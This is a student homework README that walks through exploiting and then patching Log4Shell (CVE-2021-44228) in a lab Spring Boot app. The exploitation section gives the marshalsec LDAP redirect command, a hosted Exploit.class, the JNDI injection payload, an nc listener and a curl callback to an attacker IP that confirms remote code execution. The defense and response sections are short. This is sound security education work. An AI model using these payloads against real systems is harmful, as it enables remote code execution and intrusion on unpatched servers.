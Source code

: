 # Week9: Log4Shell Vulnerability Homework

Introduction: This project demonstrates the exploitation and mitigation of the Log4Shell vulnerability (CVE-2021-44228) using a vulnerable Java Spring Boot application deployed via Docker Compose. The objectives of this homework are:

- Simulate a real-world Log4Shell exploit scenario
- Apply MITRE ATT&CK, DEFEND, and REACT frameworks
- Harden and redeploy the application using secure coding practices

---

## Prerequisites
- Docker & Docker Compose
- Java + Maven (if building manually)
- Python 3 (for attacker LDAP simulation)
Also, Ports 8000, 8080, 1389 and 389 are open in your EC2 Security Group (for the app and LDAP server).

---

## Part 1: Exploitation (MITRE ATT&CK)
After launching the ldap app "python3 ldap_server.py"  i received this error: ldap3.core.exceptions.LDAPSocketOpenError: socket connection error while opening: [Errno 111] Connection refused; after researching this error, i came to the point of using marshalsec, which is a malicious LDAP redirect server, not a real LDAP directory; i cloned it (git clone https://github.com/mbechler/marshalsec.git) then built it. I then ran manually these commands 
# HTTP server (for payload)
cd exploit/
python3 -m http.server 8000

# LDAP redirect server
java -cp marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<your-ip>:8000/#Exploit
To exploit the Log4Shell vulnerability, a vulnerable Spring Boot app using Log4j was set up to log user input. A malicious LDAP server was launched using marshalsec to redirect requests to an HTTP server hosting a malicious Exploit.class. The exploit payload ${jndi:ldap://<attacker-ip>:1389/Exploit} was sent via a POST request to the app’s /log endpoint. When the app logged this input, it triggered the JNDI lookup, causing the app to connect to the LDAP server. This demonstrated remote code loading behavior, confirming the Log4Shell vulnerability's exploitation path from input to remote callback.

Proof of vulnerability exploitation:
![image](https://github.com/user-attachments/assets/892533b0-5fb8-49f6-9acd-80159a2bc812)
nc -lvnp 9999 listener received a connection from the target app's IP (Connection received on 164.52.0.91 51287); The incoming payload shows garbled data and headers (xterm-256color, hostname, etc.), indicating that the curl http://44.208.30.186:9999/ executed successfully inside the vulnerable app. 

To summarize What Just Happened
- the vulnerable Spring Boot app logged: {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"}
- That triggered a request to your rogue LDAP server (marshalsec).
- The LDAP server instructed the app to load a malicious .class file from your HTTP server.
- The malicious .class file contained: Runtime.getRuntime().exec("curl http://<attacker>:9999/");
- The target executed that, reaching your port 9999, confirming Remote Code Execution (RCE).

the file start_exploit.sh available in the exploit folder automates all this process.

## Part 2: Defense (MITRE DEFEND)
- Log4j upgraded to 2.17.0.
- Input validation implemented to block JNDI patterns.

## Part 3: Response (MITRE REACT)
- Detect: Logs examined for exploit traces
- Contain: Vulnerable container stopped
- Eradicate: Patched container deployed
- Recover: System restored with mitigation verified

---

## Conclusion and Lessons Learned

- Logging libraries must be treated as part of the attack surface.
- Validate all input even when passed to internal services.
- MITRE frameworks provide a clear guide for security lifecycle management.

---

## References

- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [MITRE DEFEND](https://defend.mitre.org/)
- [MITRE REACT](https://www.mitre.org/publications/technical-papers/react-a-framework-for-incidence-response)

